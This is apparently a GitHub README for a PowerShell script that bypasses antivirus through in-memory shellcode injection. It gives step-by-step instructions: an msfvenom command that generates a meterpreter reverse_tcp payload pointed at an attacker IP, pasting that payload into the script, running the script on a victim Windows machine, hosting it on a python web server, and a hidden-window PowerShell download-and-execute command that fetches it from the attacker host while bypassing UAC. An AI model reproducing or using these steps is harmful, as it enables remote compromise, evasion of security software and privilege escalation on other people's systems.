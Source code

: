 # AntiVirus-bypass-PowerShell-In-Memory-Injection
Script made for bypassing antivirus using Powershell Injection method. Place your shellcode from msfvenom on line 15


<h3>Example of the payload needed:</h3>

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IPkali LPORT=4444 -f powershell
```

<h3>Then we copy the payload like this:</h3>

![Captura de pantalla 2023-02-27 210003.jpg](https://raw.githubusercontent.com/sergiovks/AntiVirus-Bypass-PowerShell-In-Memory-Injection/main/screenshots/Captura%20de%20pantalla%202023-02-27%20210003.jpg)

<h3>And paste the payload to the 15th line of the .ps1 file:</h3>

![Captura de pantalla 2023-02-27 210359.jpg](https://raw.githubusercontent.com/sergiovks/AntiVirus-Bypass-PowerShell-In-Memory-Injection/main/screenshots/Captura%20de%20pantalla%202023-02-27%20210359.jpg)

<h3>Save the final PowerShell script and run it within the victim Windows machine.</h3>

<h3>We can combine this script with the use of the following command in order to download and inject the script as an Administrator user bypassing UAC:</h3>
.
First of all you have to setup a python web server to host the payload, change the attacker IP and the PowerShell script name.
.
```
python3 -m http.server 80
```
.
Then you can use this command within the Windows target system:
```
$RegValue = "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -ep Bypass -windowstyle hidden -nop iex (New-Object Net.WebClient).DownloadString('http://IPattacker/script.ps1'); Invoke-Function"
```
